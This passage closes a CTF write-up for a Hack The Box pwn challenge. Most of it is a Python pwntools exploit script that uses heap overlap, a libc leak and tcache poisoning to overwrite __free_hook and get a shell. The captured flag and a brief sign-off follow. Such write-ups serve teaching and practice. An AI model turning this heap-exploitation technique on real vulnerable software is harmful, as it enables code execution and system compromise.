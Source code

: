 ```python
def edit(index,data):
    r.sendline(b"3")
    r.sendlineafter(b" Number of order:", str(index))
    r.sendafter(b"New order:", data)
    r.recvuntil(b">")

def delete(index):
    r.sendline(b"4")
    r.sendlineafter(b" Number of order:", str(index))
    r.recvuntil(b">")

r = start()
r.timeout = 3
#========= exploit here ===================
a = make(0x18, "A"*0x18)
b = make(0x428, b"B"*0x18)
c = make(0x18, b"C"*0x18)
y = make(0x18, b"Y"*0x18)
d = make(0x18, b"D"*0x18)
e = make(0x428, b"E"*8)
guard = make(0x18, b"/bin/sh\x00") #this string /bin/sh is used later on 

delete(b)
edit(d, p64(0)*2+p64(0x490)+p8(0x30))
edit(a, p64(0)*3+p8(0x90)) # calculated 0x490 size to accommodate for the fake large chunk
delete(e)
#
#this generate a large 0x8a0 chunk in the unsorted bin
f = make(0x428, "F")
#libc leak
leak = show(c)
log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x3ebca0
log.info(f"libc = {hex(libc.address)}")

#tcache poison
delete(a)
delete(d)

overlap = make(0x68, b"X"*0x40 +p64(libc.sym.__free_hook))
make(0x18, "dpla")
make(0x18, p64(0xdeadbeef))
delete(guard)

#========= interactive ====================
r.interactive()

#HTB{0n3_l1bc_2.27_w1th_3xtr4_tc4ch3_pl3453}
```
## Conclusion

I really enjoyed the pwn challenges on this CTF. I would love more time to finish all of them and maybe do some RE challs. But maybe next time, you can contact me at @dplastico for any feedback.


